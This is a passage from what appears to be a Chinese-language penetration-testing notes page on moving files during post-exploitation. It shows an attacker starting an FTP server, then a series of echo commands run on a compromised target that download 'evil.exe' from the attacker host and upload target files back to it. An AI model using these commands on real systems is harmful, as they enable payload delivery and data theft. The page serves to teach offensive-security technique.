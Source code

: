     攻击端使用 python 起 ftp:
    ```
    pip3 install pyftpdlib
    cd /tmp
    python3 -m pyftpdlib -p 8888
    ```
    此时目标机连接的时候,用户名为 anonymous,密码随意

- **目标机**
    目标机的远程 shell 上运行
    ```bash
    echo open <kali-ip> 21> ftp.txt
    echo username>> ftp.txt
    echo password>> ftp.txt
    echo bin >> ftp.txt
    echo GET evil.exe >> ftp.txt
    echo bye >> ftp.txt
    ftp -s:ftp.txt
    ```

    目标机上传文件(连接状态):
    ```bash
    ftp> put target.exe(如果是 windows 且文件在其他盘,需使用绝对路径)
    ```

    关闭 ftp:
    ```bash
    /etc/init.d/pure-ftpd stop
    ```

    windows下
    ```
    ftp
    username
    password
    get file
    exit 或者 bye
    ```
    ```
    ftp -s:test.txt
    ```

#### Linux lol

- [Linux LOL](../OS安全/Linux安全.md#lol)

#### Win lol

- [Windows LOL](../OS安全/Windows安全.md#lol)

---

## 隐匿技术
